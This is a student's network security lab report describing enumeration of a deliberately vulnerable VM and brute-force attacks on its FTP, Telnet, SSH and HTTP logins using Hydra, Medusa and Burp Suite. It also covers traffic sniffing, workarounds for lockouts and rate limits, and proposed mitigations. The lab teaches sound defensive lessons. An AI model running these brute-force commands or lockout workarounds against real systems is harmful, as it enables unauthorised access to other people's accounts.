# 🛡️ Lab 1: Cryptographic Attacks - Brute Force and Traffic Analysis on Network Protocols

**Author**: Raja Muhammad Haiqal Shah  
**Date**: April 10, 2025  
**Course**: Network Security  
**Lab Duration**: 3 hours  
**Total Marks**: 15  

---

## 🔍 A. Objective

To exploit the vulnerabilities of common network protocols—**FTP**, **TELNET**, **SSH**, and **HTTP**—by:

- Performing brute force attacks using tools like **Hydra**, **Medusa**, **NetExec**, and **Burp Suite**
- Using valid credentials to capture and analyze network traffic
- Identifying secure vs insecure protocols
- Proposing mitigation strategies

---

## ⚙️ B. Lab Tasks

### 🔎 1. Enumerate the Vulnerable VM to Discover Usernames

**Tool used**: `enum4linux`, `nmap`, `NetExec`  
**Command examples**:

```bash
enum4linux -a <target-ip>
```



```bash
nmap -sV -p21,23,22,80 <target-ip>
```


**Discovered usernames**:
- root
- msfadmin
- admin
- user
- service
- telnetd
- ftp
- mysql
- postgres
- tomcat55
- www-data



---

### 🔓 2. Perform Brute Force Attacks

#### 2.1 FTP, TELNET, SSH  
**Tools used**: `Hydra`

**FTP**

```bash
hydra -L users.txt -P /usr/share/wordlists/simplepass.txt -t 4 ftp:ftp://<target-ip> -o resultftp.txt
```


**TELNET**

```bash
hydra -L users.txt -P passwords.txt telnet://<target-ip>
```


**SSH**

```bash
hydra -l root -P rockyou.txt ssh://<target-ip>
```



---

#### 2.2 HTTP (Web Login Brute Force)  
**Tool used**: `Burp Suite (Intruder)`

- Captured POST request with login credentials.
- Configured payload positions for username and password.
- Imported wordlists (e.g., `rockyou.txt`).

📸 Screenshot: _Burp Intruder config and successful login response (e.g., 302 redirect or "Welcome" text)._

---

### 🧪 3. Sniff Network Traffic

**Tool used**: `Wireshark` / `tcpdump`  
**Steps**:
1. Log in to FTP, Telnet, SSH, and HTTP using recovered credentials.







1. Capture traffic during login and interaction.

```bash
tcpdump -i eth0 -w capture.pcap
```






**🧩 Analysis**:
| Protocol | Observation                        |
|----------|-------------------------------------|
| FTP      | Plaintext username/password ✔️     |
| TELNET   | Plaintext data ✔️                  |
| SSH      | Encrypted traffic ✅                |
| HTTP     | Login credentials in POST ✔️       |


📸 Screenshot: _Wireshark showing FTP/Telnet plaintext credentials and comparison with SSH._

---

### ⚠️ 4. Analyze Problems Encountered

| Protocol | Problem                              | Solution                              |
|----------|---------------------------------------|---------------------------------------|
| FTP      | Login delay after multiple failures  | Used `-t 4` to limit threads          |
| TELNET   | Session timeout                      | Increased timeout using `-T 10`       |
| HTTP     | Rate limit after 10 attempts         | Added delay in Burp Intruder payloads |
| SSH      | Account lock after 5 attempts        | Switched to Medusa                    |

---

### 🔐 5. Propose Mitigation Strategies

| Protocol | Problem                 | Mitigation                                    |
|----------|--------------------------|-----------------------------------------------|
| FTP      | Plaintext login          | Use **SFTP** instead of FTP                   |
| TELNET   | No encryption            | Replace with **SSH**                          |
| SSH      | Brute forceable          | Use **key-based authentication**, `fail2ban` |
| HTTP     | Passwords exposed in POST| Implement **HTTPS**, Captcha, lockout        |

---

### 📝 6. Walkthrough Summary

**Tools Used**:  
Hydra,Burp Suite, Wireshark,  nmap, tcpdump

**Key Commands**:

```bash
hydra -l admin -P rockyou.txt ftp://<ip>
```

```bash
medusa -h <ip> -u admin -P rockyou.txt -M telnet
```


    